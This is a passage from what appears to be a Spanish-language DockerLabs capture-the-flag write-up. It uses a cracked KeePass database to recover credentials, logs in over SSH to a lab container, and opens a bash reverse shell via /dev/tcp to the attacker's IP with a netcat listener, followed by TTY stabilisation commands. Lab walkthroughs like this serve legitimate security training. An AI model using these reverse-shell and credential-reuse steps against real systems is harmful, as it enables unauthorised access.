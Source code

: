 Encontramos la contraseña -> **password1** Ahora ya lo podemos abrir:

```
keepass2 penguin.kdbx
```

![Pasted image 20240413213256](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f4f16794-e0f2-489d-9cdd-a7eb0643d62e)

Dentro del gestor de contraseñas vemos un username y una contraseña.

Username -> **pinguino** Contraseña -> **pinguinomaravilloso123** (podemos copiarla directamente del gestor de contraseñas)

Vamos a utilizar estas credenciales para intentar entrar a la base de datos mysql, puerto 3306. No nos funciona. Lo probamos en el SSH y tampoco nos funciona. Ahora probamos con **penguin** que es el grupo al que pertenece el usuario pinguino según el gestor de contraseña y logramos entrar por SSH con las credenciales: **penguin:pinguinomaravilloso123**

```shell
ssh penguin@172.17.0.2
(ponemos la contraseña)
```

Estamos dentro.

***

### Tratamiento de la tty

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/192.168.1.39/443 0>&1" 
```

(Siendo la 192.168.1.39 mi IP de la máquina atacante)

***

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```
